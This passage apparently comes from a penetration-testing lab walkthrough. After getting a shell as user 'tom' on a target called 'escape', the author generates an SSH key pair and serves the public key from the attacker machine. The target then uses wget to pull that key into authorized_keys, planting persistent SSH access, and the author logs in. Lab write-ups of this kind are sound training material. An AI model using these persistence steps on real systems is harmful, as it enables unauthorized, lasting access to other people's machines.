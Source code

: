 To upgrade our shell, and to make the rest of the exploitation process easier, let's log in as tom via SSH. If needed, we can generate an SSH key pair as follows:

kali@kali:~$ ssh-keygen -t rsa -N '' -f /home/kali/.ssh/id_rsa
Generating public/private rsa key pair.
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:orVB16WHP9petyWNEUtpkr6AdfS9xLyPX5s7LVomyXQ kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|            o    |
|         . = ooo |
|      . . = = *+.|
|     . . o = +.oo|
|      + S . = Eo |
|     o +   * = =.|
|    . .   . * B B|
|           . =.=B|
|            o. *+|
+----[SHA256]-----+

Let's copy our public SSH key to the target and save it as /home/tom/.ssh/authorized_keys.

kali@kali:~$ cd .ssh/
kali@kali:~/.ssh$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.138 - - [05/Nov/2020 12:40:34] "GET /id_rsa.pub HTTP/1.1" 200 -
...

tom@escape:/tmp$ mkdir /home/tom/.ssh
mkdir /home/tom/.ssh
tom@escape:/tmp$ wget http://192.168.118.3/id_rsa.pub -O /home/tom/.ssh/authorized_keys
<.118.3/id_rsa.pub -O /home/tom/.ssh/authorized_keys
--2020-11-05 12:40:33--  http://192.168.118.3/id_rsa.pub
Connecting to 192.168.118.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 563 [application/octet-stream]
Saving to: ‘/home/tom/.ssh/authorized_keys’

     0K                                                       100% 49.4M=0s

2020-11-05 12:40:34 (49.4 MB/s) - ‘/home/tom/.ssh/authorized_keys’ saved [563/563]

We can now SSH to the target as tom:

kali@kali:~$ ssh -o StrictHostKeyChecking=no tom@192.168.120.138
...
$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom)
